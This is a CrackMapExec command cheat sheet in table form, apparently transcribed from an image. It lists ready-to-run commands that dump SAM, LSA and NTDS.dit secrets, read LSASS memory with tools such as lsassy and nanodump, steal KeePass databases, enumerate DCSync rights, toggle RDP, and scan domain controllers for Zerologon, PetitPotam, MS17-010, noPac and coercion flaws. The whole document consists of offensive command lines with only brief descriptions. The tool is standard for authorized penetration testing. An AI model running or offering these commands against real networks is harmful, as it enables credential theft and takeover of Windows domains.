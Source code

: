 
## Extracting Secrets 

| **Command**| **Description**|
|-|-|
| `cme smb <target> -u <u> -p <p> --sam` | Dump SAM on the target. |
| `cme smb <target> -u <u> -p <p> --lsa` | Dump LSA on the target. |
| `cme smb <target> -u <u> -p <p> --ntds` | Dump NTDS.dit on the domain controller using drsuapi method. | 
| `cme smb <target> -u <u> -p <p> --ntds vss` | Dump NTDS.dit on the domain controller using the VSS method. |
| `cme smb <target> -u <u> -p <p> -M lsassy` | Dump the memory of the LSASS process with lsassy. |
| `cme smb <target> -u <u> -p <p> -M procdump` | Dump the memory of the LSASS process with procdump. |
| `cme smb <target> -u <u> -p <p> -M handlekatz` | Dump the memory of the LSASS process with handlekatz. |
| `cme smb <target> -u <u> -p <p> -M nanodump` | Dump the memory of the LSASS process with nanodump. |

---

## Popular Modules 

| **Command**| **Description**|
|-|-|
| `cme [protocol] -M <module_name> --options` | Show module options. | 
| `cme ldap  <target> -u <u> -p <p> -M get-network -o ALL=true` | Get DNS and IP information. |
| `cme ldap  <target> -u <u> -p <p> -M laps` | Retrieve all computers an account has access to read. |
| `cme ldap  <target> -u <u> -p <p> -M maq` | Get the machine account quota for a user. |
| `cme ldap  <target> -u <u> -p <p> -M daclread -o TARGET=<username> ACTION=<read>` | Read all ACEs of the target account. |
| `cme ldap  <target> -u <u> -p <p> -M daclread -o TARGET_DN=<DN> ACTION=read RIGHTS=DCSync` | Read all objects with DCSync privileges. |
| `cme smb <target> -u <u> -p <p> -M keepass_discover` | Locate the KeePass configuration file in the target machine. |
| `cme smb <target> -u <u> -p <p> -M keepass_trigger -o ACTION=ALL KEEPASS_CONFIG_PATH=<PATH_TO_KEEPASS_CONF>` | Perform a chain attack to obtain the KeePass database. |
| `cme smb <target> -u <u> -p <p> -M rdp -o ACTION=<enable/disable>` | Enable or Disable RDP. |

---

## Vulnerability Scan Modules 

| **Command**| **Description**|
|-|-|
| `cme smb <target> -M Zerologon` | Module to check if the DC is vulnerable to Zerologon, aka CVE-2020-1472. |
| `cme smb <target> -M PetitPotam` | Module to check if the DC is vulnerable to PetitPotam, credit to @topotam. |
| `cme smb <target> -M ms17-010` | Module to check if the target is vulnerable to MS17-010. |
| `cme smb <target> -u <u> -p <p> -M nopac` | Check if the DC is vulnerable to CVE-2021-42278 and CVE-2021-42287 to impersonate DA from standard domain user. |
| `cme smb <target> -u <u> -p <p> -M dfscoerce` | Module to check if the DC is vulnerable to DFSCocerc, credit to @filip_dragovic/@Wh04m1001 and @topotam. |
| `cme smb <target> -u <u> -p <p> -M shadowcoerce` | Module to check if the target is vulnerable to ShadowCoerce, credit to @Shutdown and @topotam. |

---